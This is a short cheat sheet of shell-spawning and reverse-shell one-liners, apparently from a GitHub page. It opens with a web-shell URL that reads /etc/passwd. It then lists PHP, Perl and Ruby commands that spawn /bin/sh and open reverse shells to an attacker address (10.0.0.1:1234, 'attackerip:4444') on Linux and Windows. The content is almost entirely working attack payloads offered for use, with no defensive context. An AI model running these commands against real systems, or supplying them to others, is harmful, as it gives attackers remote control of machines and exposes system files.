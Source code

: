 ```
https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd
```

## PHP Reverse Shell:
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl:
```
exec "/bin/sh";
```
```
perl —e 'exec "/bin/sh";'
```
```
exec "/bin/bash";
```
```
perl —e 'exec "/bin/bash";'
```
## Perl Reverse Shell:
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Linux: doesn't depend on /bin/sh
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
### Windows: 
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```




## Ruby:
```
exec "/bin/sh"
```
```
ruby -e 'exec "/bin/sh"'
```
```
exec "/bin/bash"
```
```
ruby -e 'exec "/bin/bash"'
```
## Ruby Reverse Shell:
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
### Linux: does not depend on /bin/sh
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```